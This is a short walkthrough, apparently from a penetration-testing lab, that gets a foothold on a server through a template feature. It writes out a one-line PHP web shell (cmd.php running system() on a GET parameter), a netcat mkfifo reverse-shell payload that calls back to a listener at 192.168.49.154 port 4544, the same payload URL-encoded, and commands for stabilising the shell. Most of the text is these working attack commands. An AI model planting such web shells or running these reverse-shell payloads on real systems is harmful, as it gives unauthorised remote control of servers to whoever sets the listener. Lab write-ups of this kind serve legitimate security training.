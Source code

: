 ## new template creation:

![](Screenshots/2022-10-12-08-10-39.png)

## cmd.php 

    <?php system($_GET["cmd"]); ?>

## Execution:

![](Screenshots/2022-10-12-08-12-59.png)

now lets get a reverse shell!

## Payload

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.154 4544 >/tmp/f

* however we need to URL encode it first:

      rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%20192.168.49.154%204544%20%3E%2Ftmp%2Ff

## set up a listener and ... We have a shell

![](Screenshots/2022-10-12-08-17-39.png)

> stabilize shell:

        python -c 'import pty;pty.spawn("/bin/bash");'

* background
    
        stty raw -echo && fg
        rows=37
        columns=174
        export TERM=xterm-256color
